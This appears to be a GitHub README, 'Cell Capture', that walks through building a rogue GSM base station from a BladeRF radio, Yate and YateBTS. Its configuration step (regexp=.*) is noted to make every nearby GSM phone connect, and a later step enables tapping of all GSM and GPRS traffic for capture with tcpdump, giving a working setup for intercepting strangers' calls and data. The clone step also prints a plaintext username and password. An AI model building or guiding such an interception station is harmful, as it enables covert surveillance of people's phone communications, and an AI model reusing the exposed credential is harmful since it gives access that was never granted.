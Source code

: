 # Cell Capture
***

**All commands are issued from the terminal unless otherwise noted.**

### Setup Start

    sudo su
    apt-get update
    apt-get install git telnet apache2 php5 libusb-1.0-0 libusb-1.0-0-dbg libusb-1.0-0-dev libgsm1 libgsm1-dev bladerf libbladerf-dev libbladerf0 cmake automake
    cd /
    mkdir halo


### BladeRF Source

    cd /halo
    wget -c https://github.com/Nuand/bladeRF/archive/master.zip
    unzip master.zip
    cd bladeRF-master/host
    mkdir build
    cd build
    cmake -DCMAKE_BUILD_TYPE=Release -DCMAKE_INSTALL_PREFIX=/usr/local -DINSTALL_UDEV_RULES=ON ../
    make -j4
    make install > install.log
    ldconfig


### BladeRF x40 firmware

    cd /halo
    wget -c http://www.nuand.com/fx3/bladeRF_fw_v2.0.0.img
    bladeRF-cli -f bladeRF_fw_v2.0.0.img -v verbose
    quit



### Clone Repo

    cd /halo
    git clone https://github.com/stacywebb/cell-capture.git
    username: valcom
    password: Kr3Ml!n
    cd ValcomHalo


### Yate

    cd yate
    ./autogen.sh
    ./configure --prefix=/usr/local
    make -j4
    make install
    ldconfig
    cd ..


### YateBTS

    cd yatebts
    ./autogen.sh
    ./configure --prefix=/usr/local
    make -j4
    make install
    ldconfig


### Halo (NIB) GUI

    cd /var/www/html
    ln -s /usr/local/share/yate/nib_web halo
    chmod -R a+w /usr/local/etc/yate


### Initial Configuration

    nano /usr/local/etc/yate/ybts.conf

> Use the following values:

    Radio.Band=900
    Radio.C0=1000
    Identity.MCC=001
    Identity.MNC=01
    Identity.ShortName=ValcomHalo
    Radio.PowerManager.MaxAttenDB=35
    Radio.PowerManager.MinAttenDB=35

* crtl+o to write file
* ctrl+x to return to prompt


    nano /usr/local/etc/yate/subscribers.conf

#### Use the following values:

    country_code=YOUR_CONTRY_CODE
    regexp=.*


> *Note:*
>
> Using the .* regular expression will make EVERY GSM phone connect to ValcomHalo



#### Open a browser and go to:

> <http://ipaddress/halo>


#### Enable GSM-Tapping

> In the “Tapping” panel, you can enable it for both GSM and GPRS, this will “bounce” every GSM packet to the loopback interface. To view all the GSM traffic use tcpdump on the loopback interface.



#### Configuring the GPRS BTS Operability

    From a command prompt:

    iptables -t nat -A POSTROUTING -o wlan0 -j MASQUERADE


> Add the following values using the Web GUI:

    Firewall.Enable=no firewall
    MS.IP.Base=xxx.xxx.xxx.xxx (ip address)
    MS.IP.MaxCount=5

￼
#### Start ValcomHalo

> From a command prompt:

    yate -s

> expected response:

    Starting MBTS...
    Yate engine is initialized and starting up on ValcomHalo
    RTNETLINK answers: File exists
    MBTS ready



#### Configure the welcome message


    nano /usr/local/share/yate/scripts/nib.js
